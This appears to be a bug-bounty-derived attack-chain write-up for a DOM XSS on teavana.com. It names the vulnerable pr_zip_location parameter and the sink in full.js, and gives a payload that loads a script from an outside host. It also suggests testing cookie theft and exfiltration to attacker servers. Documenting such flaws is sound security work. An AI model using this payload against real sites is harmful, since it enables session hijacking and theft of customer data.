

# DOM-based XSS via Unsanitized pr_zip_location Parameter on Teavana.com

Multi-stage attack chain demonstrating a complete DOM XSS exploitation workflow on teavana.com, where the pr_zip_location parameter is reflected unsanitized into a script source URL in full.js, allowing attackers to load external malicious JavaScript and steal session data or perform account takeovers.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Browser developer tools (e.g., Chrome DevTools)
- Text editor for crafting PoCs

### Target Environment

- Web platform
- Target: teavana.com product pages (e.g., /us/en/tea/green-tea/winterberry-tea-blend-32601.html)
- No specific services/ports required beyond HTTP/HTTPS access

### Initial Access Requirements

- Public access to teavana.com
- No credentials needed for initial testing
- Ability to manipulate URL parameters

## Detailed Attack Procedures

### Step 1: Parameter Identification
procedure: [[procedures/Identify-Vulnerable-URL-Parameter-for-DOM-XSS]]

**Objective**: Examine product pages to identify URL parameters that influence script loading without sanitization.

**Instructions**: Navigate to a teavana.com product page, such as http://www.teavana.com/us/en/tea/green-tea/winterberry-tea-blend-32601.html. Use browser developer tools to inspect network requests and JavaScript files like full.js. Focus on parameters like pr_zip_location and observe how they are processed in script source construction.

**Expected Output**: Identification of pr_zip_location as a parameter concatenated into script URLs without validation.

**Success Indicators**:
- Parameter found to affect dynamic script loading
- Evidence of direct concatenation in JavaScript code

### Step 2: PoC Crafting and Injection
procedure: [[procedures/Craft-POC-for-External-Script-Injection]]

**Objective**: Construct a malicious URL that injects an external script via the vulnerable parameter.

**Instructions**: Append the payload ?pr_zip_location=//whitehat-hacker.com/xss.js to the product page URL. This exploits the unsanitized concatenation in full.js (e.g., varDR=Z(DS)+"/content/"+k(DQ)+"/contents.js";), allowing protocol-relative URL loading of the external script.

**Expected Output**: Browser loads and executes the external JavaScript from the attacker-controlled domain.

**Success Indicators**:
- External script request observed in network tab
- JavaScript execution confirmed via console alerts or logs

### Step 3: Execution Verification and Impact Assessment
procedure: [[procedures/Verify-XSS-Execution-and-Assess-Impact]]

**Objective**: Confirm arbitrary JavaScript execution across browsers and evaluate potential impacts like session hijacking.

**Instructions**: Load the PoC URL in major browsers (Chrome, Firefox, Safari). Monitor console for execution and test impacts such as cookie theft or form submission to attacker servers. Reference similar reports (e.g., #202011) for context on data exfiltration.

**Expected Output**: Successful JS execution in the teavana.com domain context, demonstrating risks to authenticated users.

**Success Indicators**:
- Cross-browser execution verified
- Potential for account takeover or data theft assessed as critical

## Attack Chain Summary

### Key Achievements

1. Identified and exploited a DOM XSS sink in full.js via URL parameter manipulation.
2. Demonstrated arbitrary external script loading for JavaScript execution.
3. Assessed high-impact risks including customer data theft and account takeovers.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T12:00:00Z*
